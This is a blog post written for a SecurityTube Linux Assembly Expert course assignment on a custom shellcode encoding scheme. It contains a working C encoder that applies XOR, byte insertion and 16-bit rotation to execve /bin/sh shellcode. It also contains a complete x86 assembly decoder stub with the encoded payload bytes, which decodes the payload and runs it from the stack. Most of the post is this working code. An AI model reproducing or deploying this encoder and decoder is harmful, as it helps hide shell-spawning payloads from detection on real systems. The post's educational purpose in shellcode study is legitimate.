 ```yaml
---
comments: true
date: 2014-04-09 16:57:06+00:00
layout: post
title: 'SLAE Assignment 4: Custom Encoding Schema'
categories:
- programming
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Create a custom encoding schema like "insertion encoder"

	
  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema


The custom encoding schema that I chose to create works as follow:

	
  1. The execve shellcode is encoded with XOR

	
  2. The result will be encoded using the insertion encoder with an incrementing value

	
  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.


<!-- more -->

To encode the execve shellcode, like I wrote above, I developed the following C program:

    
    //Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
    //Author:	Paolo Stivanin <https://github.com/polslinux>
    //SLAE ID:	526
    
    #include <stdint.h>
    #include <string.h>
    #include <stdio.h>
    #include <stdlib.h>
    
    #define ROL 0x00
    #define ROR !ROL
    
    void concatenate(uint8_t [], uint32_t);
    void rotate(uint32_t, uint32_t, uint32_t);
    void split_uint32(uint32_t);
    
    uint8_t *finalShellcode;
    uint32_t counter = 0;
    
    int main(void){
    	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
    	uint8_t xorByte = 0x1c;
    	uint8_t insertByte = 0xb2;
    
    	size_t LEN=sizeof(execveShellcode);
    	uint8_t xorWithInsertion[LEN*2];
    	uint32_t i, j=0;
    
    	restart:
    	for(i=0; i<LEN; i++){
    		if(execveShellcode[i] == xorByte){
    			xorByte += 1;
    			goto restart;
    		}
    	}
    	for(i=0; i<LEN; i++){
    		execveShellcode[i] ^= xorByte;
    	}
    
    	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
    	for(i=0; i<LEN; i++){
    		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
    		else printf("0x%02x,", execveShellcode[i]);
    	}
    
    	for(i=0; i<LEN*2; i++){
    		xorWithInsertion[i] = execveShellcode[j++];
    		xorWithInsertion[++i] = insertByte++;
    	}
    	printf("\n\nINSERTION(XOR(Shellcode)):\n");
    	for(i=0; i<LEN*2; i++){
    		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
    		else printf("0x%02x,", xorWithInsertion[i]);
    	}	
    
    	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");
    
    	finalShellcode = malloc(sizeof(xorWithInsertion));
    	concatenate(xorWithInsertion, sizeof(xorWithInsertion));
    
    	for(i=0; i<LEN*2; i++){
    		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
    		else printf("0x%02x,", finalShellcode[i]);
    	}
    	printf("\n");
    
    	free(finalShellcode);
    
    	return 0;
    }
    
    void concatenate(uint8_t arr[], uint32_t size){
    	if(size % 4 != 0){
    		printf("Size must be a multiple of 4\n");
    		return;
    	}
    
    	uint32_t i, value = 0;
    
    	for(i=0;i<size;i++){
    		value = value^arr[i];
    		if(i%4 == 3){
    			rotate(value, 16, ROL);
    			value = 0;
    		}
    		else value = value<<8;
    	}
    }
    
    void rotate(uint32_t input, uint32_t bits, uint32_t direction){
    	uint32_t output;
    
    	if(direction == ROL){
    		output = input << (bits % (8 * sizeof(uint32_t)));
    		output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    	}
    	else
    	{
    		output = input >> (bits % (8 * sizeof(uint32_t)));
    		output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
    	}
    	split_uint32(output);
    }
    
    void split_uint32(uint32_t splitMe){
    	uint32_t j;
    	uint8_t b[4];
    	b[0] = (splitMe >> 24);
    	b[1] = (splitMe >> 16) & 0xff;
    	b[2] = (splitMe & 0xffff) >> 8;
    	b[3] = (splitMe & 0xff);
    	for(j=0; j<4; j++){
    		finalShellcode[counter++] = b[j];
    	}
    }


And this is the shellcode used to decode and execute the original execve shellcode:

    
    ;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
    ;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
    ;Author:	Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:	526
    
    global _start
    section .text
    _start:
    	jmp short call_shellcode
    
    decoder:
    	pop esi
    	xor eax,eax
    	xor ebx,ebx
    	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
    	xor edx,edx
    ll:	mov ah, BYTE [esi]
    	mov al, BYTE [esi +1]
    	rol eax,16
    	mov ah, BYTE [esi +2] 
    	mov al, BYTE [esi +3]
    	add esi,4
    	mov bh, BYTE [esi]
    	mov bl, BYTE [esi +1]
    	rol ebx,16
    	mov bh, BYTE [esi +2]
    	mov bl, BYTE [esi +3]
    	add esi,4
    
    	mov dh,ah
    	rol eax,16
    	mov al,dh
    	rol eax,16
    
    	mov dh,bh
    	rol ebx,16
    	mov bl,dh
    
    	mov ax,bx
    	xor eax,0x1c1c1c1c
    	push eax
    	dec cl
    	jnz ll
    	jmp esp	
    
    call_shellcode:
    	call decoder
    	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2


Please note that the _EncodedShellcode_ **must** **be wrote in reverse order**. To do this you can use [this small program](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) that i developed to perform this task.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

And, as you can see in the picture below, it works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)



All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).





This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
